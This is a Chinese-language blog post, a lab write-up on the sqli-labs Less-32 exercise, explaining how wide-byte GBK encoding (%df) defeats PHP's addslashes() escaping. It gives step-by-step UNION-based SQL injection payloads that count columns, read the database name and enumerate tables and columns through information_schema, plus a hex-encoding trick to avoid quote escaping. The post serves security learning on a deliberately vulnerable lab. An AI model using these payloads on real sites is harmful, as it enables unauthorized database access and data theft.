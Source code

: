 ```yaml
---
title: "SQL宽字节注入"
date: 2021-03-02T18:58:31+08:00
lastmod: 2021-03-02T18:58:31+08:00
draft: true
keywords: ["sql","注入","安全"]
description: ""
tags: ["sql","注入"]
categories: ["安全"]
author: ""

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: true
autoCollapseToc: false
postMetaInFooter: false
hiddenFromHomePage: false
# You can also define another contentCopyright. e.g. contentCopyright: "This is another copyright."
contentCopyright: false
reward: false
mathjax: false
mathjaxEnableSingleDollar: false
mathjaxEnableAutoNumber: false

# You unlisted posts you might want not want the header or footer to show
hideHeaderAndFooter: false

# You can enable or disable out-of-date content warning for individual post.
# Comment this out to use the global config.
#enableOutdatedInfoWarning: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


搭建本地环境sqli-labs做的宽字节sql注入测试。
<!--more-->
### 宽字节注入原理

在说注入原理前，首先得认识PHP中的**addslashes()**函数：

![](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/addslashes()%E5%87%BD%E6%95%B0.png)



也就是说，当你输入单引号等字符时，addslashes函数会自动加上**\\**对字符进行转义，这样就会使得普通字符型注入只添加单引号闭合无法生效；

那么，要找到注入点就要想办法从addslashes函数逃逸出来。才能实现引号的闭合。这里存在两种办法：

{% note success, 

1. 把addslashes()函数所添加的反斜杠再添加一个反斜杠，对反斜杠进行转义，即“\\\”。
2. 想办法让\\消失。

针对第二种方法，利用的是mysql的一个特性，mysql在使用GBK编码时会认为两个字符时一个汉字（前一个ascii码要大于128，才到汉字的范围）

​					’       ->     \\'      ->   %5c%27

​				%df     ->  %df\\'  ->   %df%5c%27  -> %}

加入单引号时，addslashes()函数会自动添加反斜杠对单引号进行转移，而mysql使用GBK编码时对字符进行编码\\‘就变成了%5c%27，这个时候如果再在%5c%27前面加上一个字符如“%df”（ascii码大于128的字符即可），mysql在进行GBK编码时，会将两个字符%df%5c认为是一个汉字，这个时候单引号就可以逃逸出来进行单引号闭合。

### sqli-labs实例  Less-32

根据题目提示**Bypass addslashex()**以及页面提示即可知道该题为宽字节注入题目。

- 首先我们针对第一种方法进行测试输入id=1看输出结果

![image-20200707121348454](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sql%E6%B3%A8%E5%85%A5.png)

输入反斜杠和单引号看输出结果

![image-20200707121643216](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sql%E6%B3%A8%E5%85%A52.png)

从Hint可看到无论输入反斜杠还是单引号，后台最终都会对输入的反斜杠和单引号进行转义。所以此方法行不通。

- 第二种方法测试，让反斜杠进行GBK编码时消失。

输入:?id=%df 会发现返回了一个乱码（中文乱码）说明%df%5c结合成了一个汉字，反斜杠消失。

![image-20200707122357365](D:%5CBLOG%5C_posts%5CSQL%E6%B3%A8%E5%85%A5%E2%80%94%E5%AE%BD%E5%AD%97%E8%8A%82%5Cimage-20200707122357365.png)

反斜杠消失后即可根据常规单引号闭合注入方法进行sql语句的注入。

### sql注入步骤

1.查列数，order by + 数字 进行测试

id=%df%27 order by 3 %23

2.查回显位置

?id=%df%27 union select 1,2,3 %23?

3.查库名

?id=%df%27 union select 1,database(),3 %23

4.查表名

?id=%df%27 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 %23

![image-20200707123721606](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sqlzhuru.png)

5.查列名

?id=%df%27 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='xxxx'),3 %23

这里输入table_name='users'时，addslashex()函数还会对单引号进行转义。可对users进行hex编码即转为16进制。

![image-20200707123956587](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sqlzhuru2.png)

得到列名表名即可得到数据库信息。



------

**参考：安全课堂的视频内容。**

**以上内容均为个人理解，如有错误，请指正**